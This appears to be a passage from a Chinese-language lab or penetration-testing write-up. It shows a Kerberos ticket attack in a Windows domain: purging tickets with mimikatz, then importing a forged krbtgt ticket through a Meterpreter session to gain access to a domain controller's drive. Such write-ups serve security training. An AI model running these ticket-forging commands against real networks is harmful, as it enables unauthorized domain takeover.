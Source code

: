 ![image-20230310203300695](https://s2.loli.net/2023/03/11/xW4ymuN8Fs1XbcA.png)

回到web的session，我这里是3

```
sessions 3
```

导入票据

```shell
# 清空票据
mimikatz.exe "kerberos::purge" "exit"
# 查看dc的c盘被拒绝
```

![image-20230310203816039](https://s2.loli.net/2023/03/11/pP1SkBfZDthJXMd.png)

```shell
# 导入票据
meterpreter > kerberos_ticket_use /tmp/krbtgt.ticket
# 成功访问
```

![image-20230310204126738](https://s2.loli.net/2023/03/11/zNtJQgaTCWlZ61y.png)

